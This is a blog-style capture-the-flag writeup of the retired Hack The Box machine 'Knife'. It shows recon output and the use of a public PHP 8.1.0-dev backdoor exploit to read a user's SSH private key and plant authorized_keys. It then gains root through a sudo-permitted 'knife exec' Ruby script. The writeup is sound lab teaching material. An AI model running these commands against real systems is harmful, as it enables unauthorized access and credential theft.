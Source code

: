Title:HTB: Knife
Date: 08-29-2021 10:30
category:security
tags:security, boot2root, HTB, linux, php, chef
meta:security, boot2root, HTB, linux, php, chef

<img class="align-left" src="/media/2021.08/knife_card.png" alt="Knife card" width="262">

This is a writeup about a retired HacktheBox machine:
[Knife](https://www.hackthebox.eu/home/machines/profile/347) published on
May 22 2021 by
[MrKN16H](https://www.hackthebox.eu/home/users/profile/98767)
This box is classified as an easy machine. This box implies a PHP dev backdoor
and a misconfigured `sudo` permission for `knife` a
[chef](https://docs.chef.io/) utility.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 80 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Tue May 25 12:12:19 2021 as: nmap -sSV -p- -A -oN notes.md 10.129.151.250
    Nmap scan report for 10.129.151.250
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title:  Emergent Medical Idea
    <SNIP>

## Web

On the port 80 there is a simple website with no real content. Running `nikto`
on it show that the PHP version used is 8.1.0-dev.

    :::text
    └─$ nikto -h http://10.129.151.250/
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.129.151.250
    + Target Hostname:    10.129.151.250
    + Target Port:        80
    + Start Time:         2021-05-25 12:15:53 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.41 (Ubuntu)
    + Retrieved x-powered-by header: PHP/8.1.0-dev
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.

This specific 8.1.0-dev PHP version is vulnerable to a [backdoor RCE](https://packetstormsecurity.com/files/162749/php_8.1.0-dev.py.txt)

Using the exploit script we can directly execute command on the system. A few
enumeration show that we are running command as `james` and we can grab his SSH
private key.

`└─$ python3 rce.py -u http://10.129.151.250/ -c 'cat  /home/james/.ssh/id_rsa' > id_rsa`

A quick edit allows us remove the "result" from the python script then we use
`chmod 600` to fix the SSH key right and avoid the permission warning. Then we
add the key to the `authorized_keys` file still using the PHP backdoor.

`└─$ python3 rce.py -u http://10.129.151.250/ -c 'cat  /home/james/.ssh/id_rsa.pub > /home/james/.ssh/authorized_keys'`

We can then connect as `james` on the box and grab the user flag.

    :::text
    └─$ ssh james@10.129.151.250 -i id_rsa
    <SNIP>
    james@knife:~$ cat user.txt
    39169b04d1705adad09a0ba6aafe5363

# Root

We look at our permission on the box and found that we can run `/usr/bin/knife`
on the box. This is a symlink to a ruby script used by
[chef](https://docs.chef.io/).

    :::text
    james@knife:~$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife

Look at the [Knife documentation](https://docs.chef.io/workstation/knife_exec/)
we found that `knife exec` can execute ruby scripts. We execute the `id` command
to validate that we are running as root and then create the `.ssh` folder and
add james' SSH key to the `authorized_keys`.

    :::text
    james@knife:~$ cat h.rb
    puts "Hello World"
    system "id"
    system "mkdir -p /root/.ssh/"
    system "cp /home/james/.ssh/authorized_keys /root/.ssh/"

    james@knife:~$ sudo /usr/bin/knife exec h.rb -VVV
    Hello World
    uid=0(root) gid=0(root) groups=0(root)

We can then connect as root on the box (either from our kali or directly from the box)
and grab the root flag.

    :::text
    └─$ ssh root@10.129.151.250 -i id_rsa
    <SNIP>
    root@knife:~# cat root.txt
    9c158f53231321d8fdf47e3f431b0a77

# Wrapping up

A really easy box perfect for new comers.
